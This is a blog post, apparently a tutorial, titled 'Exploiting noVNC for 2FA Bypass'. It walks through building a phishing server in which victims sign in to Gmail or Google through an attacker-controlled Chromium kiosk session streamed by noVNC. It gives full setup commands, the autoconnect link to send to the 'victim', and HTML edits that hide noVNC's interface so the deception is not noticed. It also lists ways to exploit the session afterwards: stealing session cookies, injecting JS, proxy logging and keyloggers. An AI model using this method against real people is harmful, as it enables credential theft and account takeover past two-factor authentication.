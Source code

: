 ```yaml
---
layout: post
title: Exploiting noVNC for 2FA Bypass
date: 2025-02-07
categories: [Exploits]
tags: [Exploits, noVNC, 2FA Bypass]
permalink: /posts/Exploiting-noVNC-for-2FA-Bypass/
image:  
  path: /assets/img/pfp.png
---
```




# **Using noVNC for Credential Acquisition and Bypassing 2FA**

**noVNC** is both a **JavaScript library for VNC clients** and an application built on top of this library. Compatible with **any modern browser**, including mobile versions for iOS and Android, noVNC allows the web browser to function as a **VNC client**, enabling **remote access to a machine**.

So, how can we use noVNC to **acquire credentials** and **bypass 2FA**? Here's the process:

1. Set up a server with noVNC.
2. Start **Chromium** (or any other browser) in **Kiosk mode**.
3. Direct it to the desired website for user authentication (e.g., `accounts.google.com`).
4. Send the link to the target user. When they click the URL, they will access the **VNC session** without realizing it.
5. Since Chromium is configured in **Kiosk mode**, the user experience will appear as a normal web page.

---

## **Exploitation Possibilities**

The exploitation possibilities of this method are **vast**:

- **Inject JS** into the browser.
- Use an **HTTP proxy** connected to the browser to log all activities.
- **Terminate the VNC session** after user authentication.
- Capture the **browser session token** (Right-click > Inspect > Application > Cookies) after the user disconnects.
- Run a **background keylogger**.
- Or **get creative** and find other approaches (remember, the server is yours).

---

## **noVNC Setup and Demonstration**

### **1. Deploy a Kali Linux Instance**

Use any **cloud service provider** or deploy locally to set up a Linux machine. I will use **Kali Linux** for this demonstration because I prefer it, but you can choose any other Linux distribution you are comfortable with.

---

### **2. Install TigerVNC**

First, you need to install **VNC software**. I tested two options: **X11vnc** and **TigerVNC**. After several tests, I chose to use **TigerVNC**.

```shell
sudo apt update
sudo apt install tigervnc-standalone-server tigervnc-xorg-extension tigervnc-viewer
```

---

### **3. Set Up a VNC Password**

```shell
vncpasswd
```

On Kali Linux, I didn’t need to create the `xstartup` file, but if you encounter any errors, you can configure it manually.

```shell
nano ~/.vnc/xstartup
```

Paste or write the following:

```bash
#!/bin/sh
xrdb "$HOME/.Xresources"
xsetroot -solid grey
x-terminal-emulator -geometry 80x24+10+10 -ls -title "$VNCDESKTOP Desktop" &
x-window-manager &
# Fix to make GNOME work
export XKL_XMODMAP_DISABLE=1
/etc/X11/Xsession
```

Add execution permissions:

```shell
chmod +x ~/.vnc/xstartup
```

---

### **4. Restart the VNC Server**

Restart the VNC server, choosing the **screen size settings** according to your needs. noVNC automatically adjusts to the browser's screen size, but do your own testing.

```shell
vncserver -depth 32 -geometry 1920x1080
```

---

### **5. Download and Run noVNC**

```shell
git clone https://github.com/novnc/noVNC.git
```

OR

```shell
apt install novnc
```

Now run noVNC **locally** or **publicly**. Here are the commands:

- **Check the VNC server port:**

```shell
vncserver -list
```

Example: `5901`, `5902`, `5903`, etc.

- **Run noVNC:**

```shell
./noVNC/utils/novnc_proxy --vnc localhost:5901
```

- **Set up an SSH tunnel:**

```shell
ssh -L 6080:127.0.0.1:6080 root@server
```

- **Run publicly using port 8081:**

```shell
ufw allow http
./noVNC/utils/novnc_proxy --vnc 0.0.0.0:5901 --listen 8081
```

---

### **6. Access VNC and Run the Browser in Kiosk Mode**

Access your VNC and run the browser in **Kiosk mode**. I used **Chromium**, but you can use whatever suits your needs.

```shell
chromium --no-sandbox --app=https://gmail.com --kiosk
```

---

### **7. Send the URL to the "Victim" to Connect Automatically**

```shell
http://127.0.0.1:6080/vnc.html?autoconnect=true&password=YOUR-PASSWORD
```

The `autoconnect=true&password=VNCPASSWORD` will make the user authenticate automatically. If you want to rename the query parameter, you can modify the `vnc.html` file.

---

### **8. Modify the CSS to Remove Visual Elements**

noVNC displays a **custom loading page**, a **VNC control bar**, and some additional unnecessary visual elements that should be removed.

Open `vnc.html`, find the `divs` below, and add the CSS style shown.

```html
<!-- Hide unnecessary items -->
<div id="noVNC_control_bar_anchor" class="noVNC_vcenter" style="display:none;">
<div id="noVNC_status" style="display:none"></div>

<!-- Makes the loading page white -->
<div id="noVNC_transition" style="background-color:white;color:white">
```

---

## **Important Notes**

- **You are giving remote access to your machine!** It should not have anything valuable stored on it.
- Any logged data should likely be sent to a **remote machine**.
- **Do not use the root account.** Set up a restricted user account that uses the VNC service.
- Configure the **Kiosk mode** more restrictively.
